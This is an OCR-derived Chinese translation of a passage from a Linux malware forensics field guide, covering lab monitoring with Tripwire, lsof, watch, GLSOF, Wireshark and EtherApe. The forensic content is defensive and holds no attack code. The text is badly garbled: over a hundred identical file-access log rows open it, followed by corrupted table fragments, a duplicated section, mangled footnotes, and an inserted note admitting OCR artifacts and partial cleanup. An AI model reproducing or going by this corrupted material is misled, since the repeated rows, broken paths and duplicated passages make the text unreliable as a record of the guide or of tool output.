| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |
| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |


| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/6/i686-linux-gnu/4.6/ac`plus |

6 |

| 6 |6//// | |success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/ac-` | #success |

| 0 | access | `/tmp` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr///gcc/i686-linux-./4.6/acclplus` | #success |

| 0 | access | `///lib//i666-linux-` `/4.6/ac/plus` |

6 | | | | |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/to-wrapper` | #success |

| 0 | access | `/tmp` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr/lib/gcc/i686-linux-gnu/4.6/acclplus` | #success |

| 0 | access | `/usr///gcc/i686-linux-./4.6/acclplus` | #success |

| 0 | access | `///lib//i666-linux-` `/4.6/ac/plus` |

6 | | | | |

## 第 6 章 恶意软件样本分析

要启动数据库初始化模式（如图 6.4 所示），必须使用 `tripwire -m i`（或 `--init`）开关调用 Open Source Tripwire。

```
malwarelab@MalwareLab:~$ tripwire -m i
Parsing policy file: /etc/tripwire/tw.pol
Generating the database...
*** Processing Unix File System ***
```

图 6.4-初始化 Open Source Tripwire 数据库

- 在数据库初始化模式下运行时，`tripwire` 根据其内容生成一个数据库，然后对生成的数据库进行加密签名。
- 数字取证调查人员可以通过命令行选项指定用于创建数据库的策略、配置和密钥文件。生成的数据库将作为系统基线快照，用于在恶意软件样本于宿主机上运行期间衡量系统变化。

## 执行前准备：系统与网络监控

学习恶意代码样本如何与受害者样本相互作用，并识别恶意软件对系统执行了哪些处理，的一种有效方法是在样本运行期间监控系统的某些方面。

- 应该在执行目标样本之前以及样本运行期间，部署监控宿主机系统和网络活动的工具。通过这样，工具将从样本执行的一刻起捕获其活动。
- 在节中将讨论被动监控和主动监控。通过这一视角，将建议完成某些任务。关于如何部署工具和解释收集的数据的详细讨论，将在本章稍后的“执行轨迹分析：观察网络、进程、系统调用和文件系统活动” 节中进行。
- 在 Linux 系统上，在恶意代码样本的动态分析期间，有五个领域需要监控：
  - 进程；
  - 文件系统；
  - `/proc` 目录；
  - 网络活动（包括 IDS）；以及
  - 系统调用。
- 为了有效监控受感染的恶意软件实验室系统的这些方面，请同时使用被动和主动监控技术（见图 6.5）。

## Linux 系统恶意软件取证实战指南


分析提示

**记录你的“数字足迹”**

数字取证调查人员与受害者恶意软件实验室系统的交互应保持在可行的最小范围内，以减少收集数据中的“数字足迹”。同样，数字取证调查人员应记录任何可能导致监控过程中出现对应数据产生的操作，特别是当有另一位调查人员或人员将审查监控输出时。例如，如果在监控过程中，数字取证调查人员启动了 `gtool` 来检查十六进制值，应当予以记录。记录调查步骤可以减少感知的异常情况和可能干扰分析的干扰数据。

## 被动式系统与网络监控

- 系统监控涉及部署宿主机完整性或安装监控工具。这些工具在恶意代码样本运行期间在后台运行，收集与由于样本导致宿主机上显示的变化相关的信息。
- 样本运行后，由实施的主机完整性或安装监控工具将执行系统完整性检查，该工具会比较样本执行前后的系统状态。
- 例如，在初始化 `tripwire` 并创建数据库后，宿主机上显示的由恶意软件样本引起的变化会被 `tripwire` 记录。特别是，如果运行了样本，`tripwire` 将执行系统完整性检查，并将检查结果与数据库中存储的值进行比较。
- 发现的变化将写入 `tripwire` 报告供数字取证调查人员审查。在本章的“事件重建与伪迹审查：运行后数据分析”节中，将检查 `tripwire` 系统完整性检查的结果以演示结果如何呈现。

## 调查考虑

- 除了被动收集与系统变化相关的信息外，还可以通过在实验室环境中实施网络入侵检测系统（NIDS）被动收集网络相关的伪迹。NIDS 是用于被动还是主动监控，取决于数字取证调查人员如何配置和部署 NIDS。

## 主动式系统与网络监控

主动系统监控通过运行某些工具来收集与恶意代码样本的行为以及对受感染宿主机产生的影响相关的实时数据。部署的工具将捕获进程信息、文件系统活动、`/proc` 目录数据以及网络活动。

- 本节讨论了需要监控的领域以及用于实现此目标的工具。随后，在“执行恶意代码样本”节中，将详细讨论在受害者系统执行恶意软件样本背景下的监控过程和工具使用。

## 进程活动及相关的 `/proc/<pid>` 条目

- 执行怀疑进程后，检查生成的进程属性以及受感染宿主机上运行的其他进程。要获取有关新创建的可疑进程的内容，请注意以下内容：
  - 生成的进程名称和进程标识符 (`PID`)
  - 负责创建该进程的可执行进程系统路径
  - 与可疑进程相关的任何子进程
  - 可疑程序加载的库
  - 与其他系统状态活动的交互和关联上下文，例如网络流量系统调用

可以使用原生 Linux 工具检查进程活动，如 `ps`¹¹⁰ `pstree`¹¹¹ 和 `top` ¹¹¹²。此外，一个用于收集进程信息的有用工具是——

> ¹⁰ 有关 `ps` 的信息（它是 Linux 系统原生的，是 procps 工具的一部分），请访问 http://procps.sourceforge.net/。
> ¹¹ 有关 `pstree` 的信息（它是 Linux 系统原生的，是 psmisc 工具的一部分），请访问 http://psmisc.sourceforge.net/。


¹² 有关 `top` 的信息（它是 Linux 系统原生的，是 procps 工具的一部分），请访问 http://procps.sourceforge.net/。

# Linux 系统恶意软件取证指南


图 6.6-使用 Linux Process Explorer 查看恶意软件进程活动

此外，Linux Process Explorer 提供了一个易于导航的 GUI¹¹³。如图 6.6 所示，在使用 Linux Process Explorer 分析可疑的可执行和链接格式 (ELF) 文件样本时；通过点击目标进程并选择“属性”，可以对进程进行更深层的分析。

- 除了第 1 章和第 2 章讨论的新创建进程外，检查进程相关的 `/proc/<pid>` 条目以获取额外信息。

## 文件系统监控：打开文件与套接字

- 除了检查进程信息，在动态分析期间检查受感染系统上的实时文件系统活动和网络套接字也是重要的。

- 许多数字取证调查人员使用的事实工具是 `lsof`（打开文件）工具，它是 Linux 系统原生的¹⁴

- 不带命令调用 `lsof` 将列出所有活动进程的所有打开文件。相反，使用 `-p` Switches并提供可疑进程的 PID 将专门收集与该进程相关的信息。

¹³ 有关 Linux Process Explorer 的更多信息，请访问 http://sourceforge.net/projects/proexpl。

¹⁴ 有关 `lsof` 的更多信息，请访问：http://lsof.itap.purdue.edu/pub/tools/unix/lsof/;最新 FAQ：http://lsof.itap.purdue.edu/pub/tools/unix/lsof/FAQ；最新主页：http://lsof.itap.purdue.edu/pub/tools/unix/lsof/lsof_man。

### 第6 章 恶意软件样本分析

使用 `-i` 选项检查受感染系统上的所有 socket 连接。

为了获得更细粒度的分析，可以使用 `lsof` 通过以下命令来隔离 socket 连接活动：

- `-iUDP`（列出所有与 UDP 端口相关的进程）；
- `-iTCP`（列出所有与 TCP 端口相关的进程）

### 调查考虑

- 结合 `lsof` 使用 `watch` 命令^15 来收集信息，如图 6.7 所示。`watch` 命令定期执行指定的命令并在终端中显示标准输出 stdout，使数字调查人员能够观察程序输出的任何变化。

```bash
root@MalwareLab:/# watch lsof
```

> 图 6.7-使用 watch 监控 lsof 命令

- 默认情况下，用 `watch` 命令调用的程序每 2 秒运行一次；使用 `-n <间隔秒数>` 或 `--interval <间隔秒数>` 来修改间隔。例如，将间隔修改为一秒的用例：`watch -n 1 lsof`。

- 如第 1 章所述，可以与 `lsof` 配合使用或作为其替代的工具是 `fuser`,16，它可以显示进程正在访问的文件。`fuser` 的用法和开关在本章的工具箱附录中讨论。

- 文件监控工具，如 Inode Notify (`inotify`)^17、File Alert Monitoring (`FAM`)^18 和 `Gamin`^19（在工具箱附录中讨论）也可以与 `lsof` 和 `fuser` 配合使用，以获得文件活动的全局视角。

### 文件系统监控 GUI 工具

- 直直到，很少有用于监控 Linux 系统文件活动的健壮且直观的 GUI 工具。使用 GUI 工具，GLSOF（图形化...

^15 关于 `watch` 命令的更多信息，请访问 http://linux.die.net/man/1/watch。

16 关于 `fuser` 的更多信息（它是 Linux 系统原生的，是 PSmisc 软件包件的一部分），请访问 http://psmisc.sourceforge.net/。

17 关于 `inotify` 的更多信息，请访问 https://www.kernel.org/pub/linux/kernel/people/rml/inotify/。

18 关于 `FAM` 的更多信息，请访问 http://oss.sgi.com/projects/fam/。

19 关于 `Gamin` 的更多信息，请访问 https://people.gnome.org/~veillard/gamin/

当前偏好：suspicious/files

| PROCESS | TO | PWD | USER | TYPE | DEVICE | NODE | NAME | STATUS |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| dbus-daemon | 2621 | 2621 | matlab_u | unie | 000000 | 089 | 37750 | CLOSED |
| dbus-daemon | 2621 | 2621 | matlab_u | unie | 000000 | 089 | 37750 | CLOSED |
| python | 2467 | 2467 | matlab_u | unie | 000000 | 089 | 29847 | OPEN |
| python | 2467 | 2467 | matlab_u | unie | 000000 | 089 | 29847 | OPEN |
| python | 2467 | 2467 | matlab_u | unie | 000000 | 089 | 29718 | OPEN |
| python | 2467 | 2467 | matlab_u | unie | 000000 | 089 | 29718 | OPEN |
| python | 2467 | 2467 | matlab_u | unie | 000000 | 089 | 29718 | OPEN |
| python | 2467 | 2467 | matlab_u | unie | 000000 | 089 | 29718 | OPEN |
| gnome-session | 2582 | 2582 | matlab_u | unie | 000000 | 089 | 39924 | OPEN |
| gnome-session | 2582 | 2582 | matlab_u | unie | 000000 | 089 | 39924 | OPEN |
| dbus-daemon | 2621 | 2621 | matlab_u | unie | 000000 | 089 | 30134 | OPEN |
| dbus-daemon | 2621 | 2621 | matlab_u | unie | 000000 | 089 | 30134 | OPEN |
| dbus-daemon | 2621 | 2621 | matlab_u | unie | 000000 | 089 | 30134 | OPEN |
| dbus-daemon | 2621 | 2621 | matlab_u | unie | 000000 | 089 | 30134 | CLOSED |
| logkeys | 7877 | 7877 | root | unknown | - | - | - | - |
| firefox | 7873 | 7873 | root | unie | 000000 | 010 | 11450 | OPEN |
| firefox | 7873 | 7873 | root | unie | 000000 | 010 | 11450 | OPEN |
| firefox | 7873 | 7873 | root | unie | 000000 | 010 | 11450 | OPEN |
| dbus-daemon | 2621 | 2621 | matlab_u | unie | 000000 | 089 | 37750 | OPEN |
| dbus-daemon | 2621 | 2621 | matlab_u | unie | 000000 | 089 | 37750 | OPEN |

（注：提供的文本包含大量的重复和 OCR 伪迹。以上代表了所提供内容的清理后逻辑流。）

### 第6 章 恶意软件样本分析

使用 `-i` 选项检查受感染系统上的所有 socket 连接。

为了获得更细粒度的分析，可以使用 `lsof` 通过以下命令来隔离 socket 连接活动：

- `-iUDP`（列出所有与 UDP 端口相关的进程）；
- `-iTCP`（列出所有与 TCP 端口相关的进程）

### 调查考虑

- 结合 `lsof` 使用 `watch` 命令^15 来收集信息，如图 6.7 所示。`watch` 命令定期执行指定的命令并在终端中显示标准输出 stdout，使数字调查人员能够观察程序输出的任何变化。

```bash
root@MalwareLab:/# watch lsof
```

图 6.7-使用 watch 监控 lsof 命令

- 默认情况下，用 `watch` 命令调用的程序每 2 秒运行一次；使用 `-n <间隔秒数>` 或 `--interval <间隔秒数>` 来修改间隔。例如，将间隔修改为一秒的用例：`watch -n 1 lsof`。

- 如第 1 章所述，可以与 `lsof` 配合使用或作为其替代的工具是 `fuser`,16，它可以显示进程正在访问的文件。`fuser` 的用法和开关在本章的工具箱附录中讨论。

- 文件监控工具，如 Inode Notify (`inotify`)^17、File Alert Monitoring (`FAM`)^18 和 `Gamin`^19（在工具箱附录中讨论）也可以与 `lsof` 和 `fuser` 配合使用，以获得文件活动的全局视角。

### 文件系统监控 GUI 工具

- 直直到，很少有用于监控 Linux 系统文件活动的健壮且直观的 GUI 工具。使用 GUI 工具，GLSOF（图形化...

# LINUX 系统恶意软件取证领域指南


图 6.10-GLSOF FileMonitor 偏好配置

### 第 6 章 恶意软件样本分析


图 6.11-GLSOF 查询偏好配置


图 6.12-执行 GLSOF 查询


图 6.13-使用 GLSOF 查询分析可疑键盘记录器

更重要的是，程序与 Web 服务器的交互可能与程序的攻击向量、额外的恶意载负载或与程序相关的命令与控制结构有关。

- 此外，监控与受害者主机相关的网络流量将允许数字取证人员进一步探索样本的需求。如果网络流量显示该敌对程序正在请求 Web 服务器，数字取证人员将知道调整实验室环境以包含一个 Web 服务器，从而实际上“投养”该样本的需求，以确定请求的目的。

- Linux 操作系统有许多网络流量分析工具（或“嗅探器”）可供选择。大多数 Linux 系统原装配备了网络监控工具，例如 `tcpdump`，这是一个非常强大且灵活的命令行工具，可以配置为将实时网络流量以可读的格式滚动到控制台。然而，为了在对样本程序进行动态分析期间收集实时网络流量，使用具有直观图形界面（GUI）的工具会更有优势。

- 也许常用的基于 GUI 网络流量分析工具之一是 Wireshark。Wireshark 是一个多平台、健壮、实时捕获和离线分析数据包的工具，为用户提供了强大的过滤选项以及读写多种捕获文件格式的能力。

在运行 Wireshark 以捕获和滚动从主机系统发出及进入实时网络流量之前，请考虑部署和配置选项。

- 第一个选项是在主机系统上本地部署 Wireshark。这使得数字取证人员更容易监控受害者系统并进行必要的环境调整。然而，这并非总是可能的，因为某些恶意代码样本会终止“多管闲事”的安全和监控工具，包括数据包工具。

- 因此，另一种替代方案是从实验室“监控”端部署 Wireshark 来收集所有网络流量。这种方法的缺点是它需要数字取证人员频繁在虚拟主机之间切换，以监控受害者主机系统。

- 一旦决定了如何部署工具，就需要配置 Wireshark 在工具面板中捕获并显示实时流量。

- 在 Wireshark 捕获选项（Capture Options）中，如图 6.14 所示，从顶部的切换字段选择相应的网络接口，并通过点击旁边的框来启用混杂模式下的包捕获。此外，在显示选项（Display Options）中，选择“实时捕获中更新包列表”和“实时捕获中自动滚动”。

24 有更多关于 `tcpdump` 的信息，请访问 http://www.tcpdump.org/

25 有更多关于 `tcpdump` 的信息，请访问 http://www.tcpdump.org/tcpdump_man.html。

26 有更多关于 Wireshark 的信息，请访问 http://www.wireshark.org/


- 在此时，流量上不应开启任何过滤器。在随后的调查过程中，根据识别出的或已知的网络特征应用特定的过滤器可能是合适的。

### 调查考虑

- 除了捕获和显示完整的网络流量内容外，使用网络可视化工具作为网络流量的高级地图也是帮助的。通过此，数字取证人员可以快速获得活动主机、正在使用的协议以及生成的流量量的整体视角。这里一个非常有用的工具是 EtherApe，²⁷，一个开源网络拓图分析器。

- EtherApe 显示活动节点的主机名和 IP 地址，以及在网络流量中捕获的相应协议。

- 为了区分网络流量中的协议，每个协议都被分配了唯一的颜色，并在工具界面上显示相应的协议代码，如图 6.15 所示。

- EtherApe 高度可配置性，允许用户自定义捕获格式。此外，EtherApe 可以读取和重放保存的流量会话。EtherApe 的替代方案是 `jpcap`，²⁸，一个基于 Java 的网络工具，可对网络流量进行实时分解和可视化。

- 除了监控网络流量，还要检查被感染系统上的实时开放活动，以及被感染系统请求的远程系统的端口号。²⁷ 有更多关于 EtherApe 的信息，请访问 http://etherape.sourceforge.net/

²⁸ 有更多关于 `jpcap` 的信息，请访问 http://jpcap.org/


图 6.15-使用 EtherApe 监控流量

